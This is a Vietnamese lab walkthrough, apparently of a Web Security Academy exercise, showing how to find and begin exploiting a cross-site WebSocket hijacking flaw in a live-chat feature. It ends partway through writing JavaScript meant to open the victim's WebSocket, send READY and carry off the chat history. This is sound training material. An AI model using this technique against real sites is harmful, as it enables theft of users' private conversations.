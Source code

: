### Solution:

Xem qua chức năng Live Chat: 

![img](https://imgur.com/Gf7zmSn.png)

Thử gửi 1 vài message: 

![img](https://imgur.com/AmclEf4.png)

Trong HTTP history trong Burp, tìm thấy WebSocket handshake request: 

![img](https://imgur.com/gdlpQgq.png)

--> Không chứa bất kỳ unpredictable tokens nào --> có thể bị tấn công CSWSH nếu có thể bypass bất kỳ SameSite cookie restrictions nào.

Refresh lại page, trong WebSockets History tìm được: 

![img](https://imgur.com/vuSwp3L.png)

--> Trình duyệt gửi READY message tới server. Điều này khiến server phản hồi với toàn hộ lịch sử chat.

Thử Send message này trong Repeater để xác nhận: 

![img](https://imgur.com/vFynpbT.png)

Kiểm tra response HTML của endpoint /chat: 

![img](https://imgur.com/znyL0fQ.png)

Tìm ra địa chỉ WebSocketSecure. Tiếp tục kiểm tra file chat.js:

![img](https://imgur.com/d7IEFna.png)

--> Nhận thấy địa chỉ WSS được sử dụng để khởi tạo 1 websocket mới. Khi kết nối websocket mới được mở, READY message được gửi đến websocket.

Cần tạo 1 payload để thực sự lấy message và chuyển nó đến endpoint mà ta kiểm soát, vì vậy cần tạo payload có dạng sau: 

        let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

        newWebSocket.onopen = function (evt) {
            writeMessage("system", "System:", "No chat history on record");
            newWebSocket.send("READY"); 
        }

        newWebSocket.onmessage = function (evt) {
            var message = evt.data;
        }

Thay đổi thành: 

        let newWebSocket = new WebSocket("wss://0a2500c0040995d582ea1fac00000038.web-security-academy.net/chat");
